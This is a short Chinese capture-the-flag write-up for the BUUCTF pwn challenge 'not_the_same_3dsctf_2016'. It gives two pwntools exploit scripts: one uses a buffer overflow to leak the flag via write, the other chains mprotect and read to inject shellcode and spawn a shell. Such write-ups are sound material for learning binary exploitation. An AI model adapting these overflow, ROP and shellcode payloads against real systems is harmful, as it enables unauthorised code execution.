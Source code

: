 # 分析

来自[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#not_the_same_3dsctf_2016)

这是一道ret2text(32)题，但是也可以用ret2shellcode思路来做



------

# exp

题解一：通过read函数把flag的读出来

```python
from pwn import *
context(os='linux',arch='i386',log_level='debug')
p=remote('node5.buuoj.cn',26095)
#p=process('./not_the_same_3dsctf_2016')
elf=ELF('./not_the_same_3dsctf_2016')
back_addr=0x80489A0
printf_addr = elf.sym['write']
flag_addr=0x80ECA2D
main_addr=0x80489E0
payload1=flat(b'A'*0x2d,p32(back_addr),p32(printf_addr),p32(main_addr),p32(1),p32(flag_addr),p32(50))
#gdb.attach(p)
p.sendline(payload1)
p.recv()

```

题解二：思路通过mprotect函数对.got.plt段进行改成可读可写可执行，注入shellcode

```python
from pwn import *
context(os='linux',arch='i386',log_level='debug')
p=remote('node5.buuoj.cn',27042)
#p=process('./not_the_same_3dsctf_2016')
elf=ELF('./not_the_same_3dsctf_2016')

mprotect = elf.sym['mprotect']
read_addr=elf.sym['read']
#mprotect=0x0806ED40
#read_addr=0x0806E200
NX_addr=0x080EB000
pop3_ret=0x0804f420
shellcode=asm(shellcraft.sh())

payload1=flat(b'A'*0x2d,p32(mprotect),p32(pop3_ret),p32(NX_addr),p32(0x100),p32(7),p32(read_addr),p32(pop3_ret),p32(0),p32(NX_addr),p32(len(shellcode)),p32(NX_addr))
#gdb.attach(p)
p.sendline(payload1)
p.sendline(shellcode)
p.interactive()
```

